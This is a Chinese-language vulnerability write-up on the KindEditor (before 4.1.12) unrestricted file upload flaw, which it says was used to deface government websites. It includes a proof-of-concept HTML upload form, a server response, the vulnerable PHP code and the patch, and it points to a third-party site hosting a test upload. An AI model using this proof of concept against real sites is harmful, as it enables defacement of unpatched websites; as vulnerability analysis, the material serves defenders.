

## 前言
偶然看到的文章，大量政府网站被挂黑页，利用的是 `cve` 在2017年就已经暴出来的编辑器漏洞。 `https://mp.weixin.qq.com/s/SqPu88RALGMOPeAJ34uNeQ`

## 影响范围
`kindeditor < 4.1.12` ，任意已存在语言
测试通过版本为 `4.1.11`
造成影响：被挂黑页

## 漏洞复现
下载链接：`https://github.com/kindsoft/kindeditor/tags`
在 `/php/upload_json.php` 同目录建立一个 `html` 页面，用来上传
```
	<!DOCTYPE html>
	<html lang="en">
	<head>
	    <meta charset="UTF-8">
	    <meta name="viewport" content="width=device-width, initial-scale=1.0">
	    <title>Document</title>
	</head>
	<body>
	    <form action="upload_json.php?dir=file" method="POST" enctype="multipart/form-data" >
	        <input type="file" name="imgFile" />
	        <input type="submit" name="submit" >
	    </form>
	</body>
	</html>
```
注意 `html` 中的 `form` ，`action` 参数需要为 `upload_json.php?dir=file` ，是因为漏洞点在 `upload_json.php` 中，需要 `dir` 为 `file` ，才可以上传 `html` 页面，此外 `name` 必须为 `imgFile` 保证能正确上传。

随意上传一个 `html` 页面或者说你的黑页，其`response` 为
```
	HTTP/1.1 200 OK
	Server: nginx/1.15.11
	Date: Sun, 26 Jul 2020 06:23:47 GMT
	Content-Type: text/html; charset=UTF-8
	Connection: close
	X-Powered-By: PHP/5.6.9
	Content-Length: 82

	{"error":0,"url":"\/php\/..\/attached\/file\/20200726\/20200726164023_11510.html"}
```
需要已存在 `attached` 目录，不会自动创建，之后直接访问就可以了，比如这里就是

http://www.tiance.cn/attached/file/20200726/20200726164129_91628.html

#### 使用curl传文件

`curl` 也是可以上传文件的，文件关键字这里是 `imgFile` ，需要给文件名加一个 `@`

可以看到，利用 `curl` ，我们可以很容易就成功上传。

## 漏洞详情
在 `upload_json.*` 中，存在如下代码
```
	...
	$ext_arr = array(
	    'image' => array('gif', 'jpg', 'jpeg', 'png', 'bmp'),
	    'flash' => array('swf', 'flv'),
	    'media' => array('swf', 'flv', 'mp3', 'wav', 'wma', 'wmv', 'mid', 'avi', 'mpg', 'asf', 'rm', 'rmvb'),
	    'file' => array('doc', 'docx', 'xls', 'xlsx', 'ppt', 'htm', 'html', 'txt', 'zip', 'rar', 'gz', 'bz2'),
	);
	...

	$temp_arr = explode(".", $file_name);
	    $file_ext = array_pop($temp_arr);
	    $file_ext = trim($file_ext);
	    $file_ext = strtolower($file_ext);
	    *//检查扩展名*
	    if (in_array($file_ext, $ext_arr[$dir_name]) === false) {
	        alert("上传文件扩展名是不允许的扩展名。\n只允许" . implode(",", $ext_arr[$dir_name]) . "格式。");
	    }
	    *//创建文件夹*
	    if ($dir_name !== '') {
	        $save_path .= $dir_name . "/";
	        $save_url .= $dir_name . "/";
	        if (!file_exists($save_path)) {
	            mkdir($save_path);
	        }
	    }
	    $ymd = date("Ymd");
	    $save_path .= $ymd . "/";
	    $save_url .= $ymd . "/";
	    if (!file_exists($save_path)) {
	        mkdir($save_path);
	    }
	    *//新文件名*
	    $new_file_name = date("YmdHis") . '_' . rand(10000, 99999) . '.' . $file_ext;
	    *//移动文件*
	    $file_path = $save_path . $new_file_name;
	    if (move_uploaded_file($tmp_name, $file_path) === false) {
	        alert("上传文件失败。");
	    }
	    @chmod($file_path, 0644);
	    $file_url = $save_url . $new_file_name;
	    header('Content-type: text/html; charset=UTF-8');
	    $json = new Services_JSON();
	    echo $json->encode(array('error' => 0, 'url' => $file_url));
	    exit;
	...
```
这里只有一个白名单，没有其他过滤，可以上传 `html` 和 `htm` 等，此外，该文件不需要任何权限就可以访问，因此可以上传黑页。

在 `4.1.12` 版本中，将 `upload_json.*` 都改为了 `upload_json.*.txt` ，因此不会被 `php` 解析，此外，还删除了白名单中的 `html` 与 `htm` 。

## 总结

这个漏洞，看上去危害并不是很大，这也是我在网上并没有找到什么文章讲这个的原因，但是对于一些比较重视自己网站门户的站长，还是很重要的，尤其是政府。